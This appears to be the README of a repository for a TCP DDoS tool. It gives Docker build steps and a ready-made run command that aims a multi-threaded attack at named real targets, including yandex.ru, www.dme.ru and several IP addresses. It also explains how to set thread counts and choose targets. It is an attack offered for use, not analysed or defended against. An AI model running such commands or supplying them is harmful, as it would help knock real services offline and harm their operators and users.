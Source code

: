 # DDOS
After successful downloading you need to install docker desktop.
https://www.docker.com/products/docker-desktop
Open MainApp folder in terminal and run three commands:
PS:when you run this command,turn off vpn
" dotnet publish -c Release",
"docker build -t ddosimage . " and
"docker run -it --rm  ddosimage  3 80.68.247.26 www.dme.ru yandex.ru 195.218.193.151 77.51.53.74"

Last row after "ddosimage"  you can put quantity of threads for each ip and all ip address on which you want to make TCP ddos attack or url
PS: url pust be with domain ".ru" becouse program can filter only url with ".ru" otherwise in will make an excaption.


Слава Україні!!!!
